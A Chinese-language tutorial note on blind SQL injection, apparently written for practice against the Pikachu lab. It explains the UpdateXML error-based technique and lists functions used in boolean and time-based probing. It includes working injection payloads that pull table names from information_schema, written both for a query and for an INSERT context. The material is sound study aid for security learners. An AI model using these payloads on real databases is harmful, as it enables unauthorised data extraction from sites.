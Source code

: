 # SQL盲注

SQL盲注是指无法使用详细数据库错误消息或带内数据连接的情况下，利用数据库查询的输入审查漏洞从数据库提取信息或提取与数据库相关信息的技术。

### 基于报错

floor ， updateXML ， extractvalue

###### 通过SQL执行UpdateXML报错获得信息

```
UpdateXML(xml_target,xpath_expr,new_xml)
#此函数将xml_target中用xpath_expr路径匹配到XML片段用new_xml替换，然后返回更改后的XML。
#xml_target被替换的部分与xpath_expr用户提供的XPath表达式匹配。
#如果找不到表达式匹配 xpath_expr项，或者找到多个匹配项，则该函数返回原始 ml_targetXML片段。
#所有三个参数都应为字符串。
```

```sql
and UpdateXML(1,concat('~',(select table_name from information_schema.tables where table_schema='pikachu' limit 1)),1)# 
 
或者用于insert的:
or UpdateXML(1,concat('~',(select table_name from information_schema.tables where table_schema='pikachu' limit 1)),1) or

#xpath_expr是XPath格式的字符串(如果xpath_expr不是XPath格式，则会报错并显示出xpath_expr的值)

#concat()函数用于将多个字符串连接成一个字符串,目的是让拼接后的字符串不符合XPath格式使其报错,显示出要查的对象。
```

![image](images/91952069EFB940BCA30485BEC1265E2Fclipboard.png)

### 基于布尔

先介绍重要的SQL函数

```sql

like 'ro%'  #判断ro货ro...是否成立

regexp '^xiaodi[a-z]' #匹配xiaodi及xiaodi...登

if(条件,5,0)    #条件成立返回5 反之 返回0

sleep(5) #sql语句延时执行5秒

mid(a,b,c)  #从位置b开始，截取a字符串的c位

left(a,b) #从左侧截取a的前b位
```

